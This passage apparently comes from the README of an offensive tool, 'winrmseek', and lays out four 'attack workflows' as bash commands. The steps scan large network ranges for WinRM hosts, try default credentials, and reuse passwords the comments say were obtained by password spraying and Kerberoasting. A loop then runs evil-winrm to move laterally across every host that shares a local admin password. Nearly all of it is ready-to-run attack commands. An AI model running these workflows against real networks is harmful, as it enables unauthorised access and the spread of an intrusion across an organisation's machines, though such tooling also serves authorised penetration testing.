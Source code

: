 ## Attack Workflows

### Workflow 1: Initial Discovery
```bash
# 1. Find WinRM hosts
./winrmseek.py 192.168.0.0/16 -w 100

# 2. Check results
cat winrmlist.txt

# 3. Try default credentials
./winrmseek.py -f winrmlist.txt -t -u administrator -p "Password123"
```

### Workflow 2: Credential Reuse
```bash
# Got creds from password spraying: admin / Summer2024!
./winrmseek.py -f all_servers.txt -t -u admin -p "Summer2024!"

# Check successful access
cat winrm_access.txt

# Connect to first accessible host
IP=$(head -1 winrm_access.txt | cut -d: -f1)
evil-winrm -i $IP -u admin -p "Summer2024!"
```

### Workflow 3: Local Admin Hunt
```bash
# Compromised one workstation, got local admin pass
./winrmseek.py 10.0.0.0/16 -t -u administrator -p "LocalAdmin123"

# Find all hosts with same password
grep "Access Found" winrm_access.txt > vulnerable_hosts.txt

# Lateral movement
while read host; do
    ip=$(echo $host | cut -d: -f1)
    evil-winrm -i $ip -u administrator -p "LocalAdmin123" -e "hostname"
done < vulnerable_hosts.txt
```

### Workflow 4: Post-Kerberoasting
```bash
# Cracked service account from Kerberoast
# svc-backup / BackupPass2024!

./winrmseek.py -f servers.txt -t -u "CORP\svc-backup" -p "BackupPass2024!"

# Access any systems where service account can WinRM
cat winrm_access.txt
```
